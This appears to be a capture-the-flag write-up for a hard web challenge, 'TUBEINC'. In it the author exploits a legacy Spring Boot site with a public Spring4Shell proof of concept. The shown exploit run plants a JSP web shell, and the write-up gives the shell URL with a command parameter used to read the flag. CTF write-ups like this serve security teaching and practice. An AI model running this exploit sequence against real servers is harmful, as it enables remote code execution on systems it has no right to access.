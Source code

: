 # TFC CTF

## WEB

### TUBEINC

**Difficulty:** Hard

**Statement:** Oook! That's a hard one! I just want to buy some tubes, but I think that the main site is disabled... What now?

***

For this challenge, the website has nothing interesting except the information in the footer :

```html
<footer>
  <p>For the complete functionality of the page add the following entries to your DNS configuration and use tube.com:PORT to connect to the platform.<br>
    34.65.33.171 tube.com<br>
    34.65.33.171 legacy.tube.com<br>
    DO NOT USE THIS IN PRODUCTION!</p>
</footer>
```

I add on my local machine in the file `/etc/hosts` the following entries:

```
34.65.33.171	tube.com
34.65.33.171	legacy.tube.com
```

Now, the website with the domain name legacy.tube.com seems interesting :

![image](https://user-images.githubusercontent.com/49941629/182037436-639186e7-a638-4cc0-b40f-2637e6d2af1f.png)

We can see in the HTML source code the following comment:

```html
  <!--
    Important!
    Due to the recent discovery of a major vulnerability of the used framework, this platform is now deprecated (more information at /info).
    It remains available only for backward compatibility reasons.

    DO NOT USE THIS PLATFORM IN PRODUCTION!
  -->
```

So I go to the URL `http://legacy.tube.com:49445/info`:

![image](https://user-images.githubusercontent.com/49941629/182037490-2cca9d0f-939c-4da0-9c58-e87d665dc438.png)

This page tells us that the spring-boot version is compromised.

After some research, we find a git repo to get a webshell (exploit spring4shell) : https://github.com/reznok/Spring4Shell-POC

POC of exploit :

```
python exploit.py --url "http://legacy.tube.com:49445"                                                                                                                                   ──(dim.,juil.31)─┘
[*] Resetting Log Variables.
[*] Response code: 200
[*] Modifying Log Configurations
[*] Response code: 200
[*] Response Code: 200
[*] Resetting Log Variables.
[*] Response code: 200
[+] Exploit completed
[+] Check your target for a shell
[+] File: shell.jsp
[+] Shell should be at: http://legacy.tube.com:49445/shell.jsp?cmd=id
```

By going to the given URL, we can perform RCE :

![image](https://user-images.githubusercontent.com/49941629/182037791-df957ea2-84b7-4732-9dd2-3b2e2e07b6ba.png)

A `ls` then a `cat` allows us to get the flag :

![image](https://user-images.githubusercontent.com/49941629/182037881-c4fb19b0-fd86-48f7-a8e0-2e6411a434ff.png)
![image](https://user-images.githubusercontent.com/49941629/182037904-554c31d7-111b-44dd-ad48-eb796c0b0589.png)

Flag : `TFCCTF{F*_$pr1nG!_I_m_m0R3_0f_4_w1nt3r_p3r$0n_aNyw4y!}`

For the root privesc, I did not find the method.
